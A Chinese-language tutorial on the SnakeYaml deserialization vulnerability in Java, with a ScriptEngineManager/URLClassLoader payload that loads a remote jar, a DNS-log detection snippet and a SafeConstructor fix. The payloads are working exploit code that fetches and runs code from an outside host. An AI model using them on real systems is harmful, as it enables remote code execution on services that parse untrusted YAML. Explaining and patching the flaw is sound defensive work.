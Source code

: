 SnakeYaml是java解析yaml格式的组件库，SnakeYaml反序列化漏洞不存在版本限制，前提是能控制反序列化数据流。


SnakeYaml反序列化漏洞，不同的数据类型稍有不同：
当数据为键值对时，会调用构造方法和setter方法。
当数据是数组时候会调用构造方法，其中一条攻击链就是利用SPI机制来加载恶意类



## **SnakeYaml使用​**
导入依赖，如果是springboot项目，自带此依赖。
```
<dependency>​
  <groupId>org.yaml</groupId>​
  <artifactId>snakeyaml</artifactId>​
  <version>1.27</version>​
</dependency>
```
```
inputStream = new FileInputStream(filepath);​
yaml = new Yaml();​
// 使用文件输入流读取YAML文件​
yamlMap = yaml.load(inputStream);
```

## **反序列化漏洞**
当数据是数组时候会调用构造方法，其中一条攻击链就是利用SPI机制来加载恶意类：
使用 !!+全类名指定反序列化的类，反序列化过程中会实例化该类。snakeyaml 将全类名解析，并将类使用forname()进行加载，然后通过反射获取构造器，调用构造方法，控制适当的类的构造方法就能进行漏洞攻击。
如
```
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:7788/exp.jar"]]]]
```
探测
```
public class Snakeyaml {
    public static void main(String[] args) {
        String context = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://fnsdae.dnslog.cn\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(context);
    }
}
```
网上工具
<https://www.cnblogs.com/nice0e3/p/14514882.html>

^
## **修复**
其实该漏洞涉及到了全版本，只要反序列化内容可控,那么就可以去进行反序列化攻击​
修复方案：加入new SafeConstructor()类进行过滤
```
public class main {​
    public static void main(String[] args) {​
        String context = "!!javax.script.ScriptEngineManager [\n" +​
                "  !!java.net.URLClassLoader [[\n" +​
                "    !!java.net.URL [\"http://127.0.0.1:8888/yaml-payload-master.jar\"]\n" +​
                "  ]]\n" +​
                "]";​
        Yaml yaml = new Yaml(new SafeConstructor());​
        yaml.load(context);​
    }​
}
```
